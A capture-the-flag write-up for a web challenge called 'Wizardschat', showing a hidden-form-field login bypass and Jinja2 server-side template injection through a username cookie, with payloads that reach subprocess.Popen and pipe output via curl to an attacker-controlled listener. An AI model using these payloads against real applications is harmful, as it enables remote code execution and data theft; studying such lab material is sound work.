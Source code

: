 # Writeup [Wizardschat](README.md)
**Points: 300**

**Author: aleksil**

**Difficulty: hard**

**Category: web**


On opening the web-page you are greeted with a "login" prompt.
Simply entering a username and pressing login results in a "NO MAGIC DETECTED" message,
the trick to bypass this is to set the hidden form parameter `has_magic` to `1` instead of `0`.

Once you've managed to log in you can send messages that are stored
in an SQLite database. This is a red herring as SQL-injection should not
be possible.

However, the username field that is stored in a cookie enables server-side template
injection (SSTI). With SSTI you can run arbitrary code on the server in a roundabout way.
To use this for actual exploitation we need to break out of the sandbox that the 
templating engine has set up.

The following HTTP call will give us a list of the classes we have available:
```
GET / HTTP/1.1
Cookie: username={% for x in [].__class__.__base__.__subclasses__() %}<pre>{{loop.index -1}} - {{x|string}}</pre>{%endfor%}
cache-control: no-cache
User-Agent: PostmanRuntime/7.6.0
Accept: */*
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```

Response:
```
Username:
0 - <class 'type'>
1 - <class 'weakref'>
2 - <class 'weakcallableproxy'>

... snip ...

180 - <class 'subprocess.CompletedProcess'>
181 - <class 'subprocess.Popen'>

... snip ...

486 - <class 'jinja2.ext.Extension'>
487 - <class 'jinja2.ext._CommentFinder'>
488 - <class 'unicodedata.UCD'>
```

`subprocess.Popen` will allow us to call arbitrary shell commands.
Using this we can pop a reverse shell and access the flag.

By sending the username as `{{[].__class__.__base__.__subclasses__()[181]("ls | curl -X POST -d @- YOUR_IP_HERE:1234",shell=True)}}`
and running `nc -l 1234` locally we can get a directory listing. 
NOTE: If you run another variant of netcat you might need a different command to make it listen on the correct port.

```
POST / HTTP/1.1
Host: 10.0.2.15:1234
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

__pycache__flag.txtmain.pyrequirements.txtwizardschat.db
```

From this we deduce that the flag is in `flag.txt` and we can run another call to exfiltrate
it to our listening `nc`.

```
GET / HTTP/1.1
Cookie: username={{[].__class__.__base__.__subclasses__()[181]("cat flag.txt | curl -X POST -d @- YOUR_IP_HERE:1234",shell=True)}}
cache-control: no-cache
Postman-Token: f9c2c1b7-34b8-4d7e-a750-0e3b1ce301d1
User-Agent: PostmanRuntime/7.6.0
Accept: */*
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```

```
POST / HTTP/1.1
Host: 10.0.2.15:1234
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 34
Content-Type: application/x-www-form-urlencoded

TG19{templates_make_a_better_chat}
```

And there's the flag! :)
